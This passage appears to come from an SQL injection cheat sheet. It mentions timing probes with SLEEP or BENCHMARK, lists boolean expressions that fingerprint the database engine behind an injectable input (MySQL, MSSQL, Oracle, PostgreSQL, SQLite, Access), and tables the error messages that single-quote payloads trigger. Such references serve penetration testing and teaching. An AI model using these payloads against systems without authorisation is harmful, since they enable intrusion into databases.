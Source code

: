 - **Timing Attacks**: Inputting SQL commands that cause deliberate delays (e.g., using `SLEEP` or `BENCHMARK` functions in MySQL) can help identify potential injection points. If the application takes an unusually long time to respond after such input, it might be vulnerable.

## DBMS Identification

```c
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

## DBMS Identification VIA Error

| DBMS                 | Example Error Message                                                                     | Example Payload |
| -------------------- | ----------------------------------------------------------------------------------------- | --------------- |
| MySQL                | `You have an error in your SQL syntax; ... near '' at line 1`                             | `'`             |
| PostgreSQL           | `ERROR: unterminated quoted string at or near "'"`                                        | `'`             |
| PostgreSQL           | `ERROR: syntax error at or near "1"`                                                      | `1'`            |
| Microsoft SQL Server | `Unclosed quotation mark after the character string ''.`                                  | `'`             |
| Microsoft SQL Server | `Incorrect syntax near ''.`                                                               | `'`             |
| Microsoft SQL Server | `The conversion of the varchar value to data type int resulted in an out-of-range value.` | `1'`            |
| Oracle               | `ORA-00933: SQL command not properly ended`                                               | `'`             |
| Oracle               | `ORA-01756: quoted string not properly terminated`                                        | `'`             |
| Oracle               | `ORA-00923: FROM keyword not found where expected`                                        | `1'`            |

---